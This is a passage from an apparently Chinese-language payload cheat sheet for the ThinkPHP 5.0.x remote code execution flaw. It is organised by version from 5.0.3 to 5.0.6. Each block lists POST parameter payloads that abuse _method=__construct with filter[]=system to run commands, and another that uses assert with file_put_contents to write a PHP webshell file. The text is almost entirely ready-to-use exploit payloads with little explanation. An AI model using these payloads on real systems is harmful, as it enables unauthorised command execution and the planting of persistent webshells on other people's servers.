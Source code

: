 ```
_method=__construct&method=GET&filter[]=system&get[]=whoami
```
写shell
```
POST
s=file_put_contents('Y4er.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
## 5.0.3
debug 无关
命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
```
写shell
```
POST
s=file_put_contents('Y4er.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
## 5.0.4
debug 无关
命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
```
写shell
```
POST
s=file_put_contents('Y4er.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
## 5.0.5
debug 无关
命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
```
写shell
```
POST
s=file_put_contents('Y4er.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
## 5.0.6
debug 无关
命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
```
写shell
```
POST
s=file_put_contents('Y4er.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```